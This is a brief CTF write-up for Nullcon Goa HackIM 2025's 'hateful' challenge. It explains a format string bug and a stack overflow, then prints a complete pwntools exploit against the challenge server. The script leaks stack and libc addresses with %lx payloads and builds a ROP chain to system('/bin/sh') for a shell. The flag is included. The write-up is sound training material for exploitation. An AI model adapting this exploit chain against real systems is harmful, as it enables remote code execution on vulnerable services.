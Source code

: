 
was an easy challenge from Nullcon Goa HackIM 2025 CTF

there was a format string bug in send_message function 

![func](https://github.com/4rsp/writeups/blob/main/Nullcon-2025/hateful/func.png)

```
fgets(local_3f8,0x1000,stdin);
```
and our message was long enough to overwrite the saved_rip of the function...

no pie, no canary, leak the libc and do rop

as easy as it sounds


```
#!/usr/bin/env python3

from pwn import *
'''
p = gdb.debug("./hateful_patched", gdbscript="""
            b *send_message+91
            b *send_message+168
            b *send_message+185
            c
""")
'''python3
p = remote("52.59.124.14", 5020)

p.sendlineafter(b">>", b"yay")

payload = b"%lxA%lxA%lxA%lxA%lxA%lxA%lxA%lxA%lxA%lxA%lxA%lx"
p.sendlineafter(b">>", payload)
p.recvuntil(b"provided: ")
leak = p.recvline()
print(leak)
rip = int(leak[:12], 16) - 0x2588 + 0x4b10 
print(hex(rip))
libc = int(leak[24:][:12], 16) - 0x1d2000 - 0xa80
print(hex(libc))
system = libc + 0x4c490
nop = 0x4010ff
pop_rdi = libc +  0x00000000000277e5
binsh = libc + 0x196031
payload = b"A"*1016
payload += p64(nop)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

p.sendlineafter(b"message!\n", payload)
p.sendline(b"/bin" + p8(u8("/") + 1) + b"/sh")

p.interactive()
```

FLAG: ```ENO{W3_4R3_50RRY_TH4T_TH3_M3554G3_W45_N0T_53NT_T0_TH3_R1GHT_3M41L}```

***4rsp is pwning easy challs...***
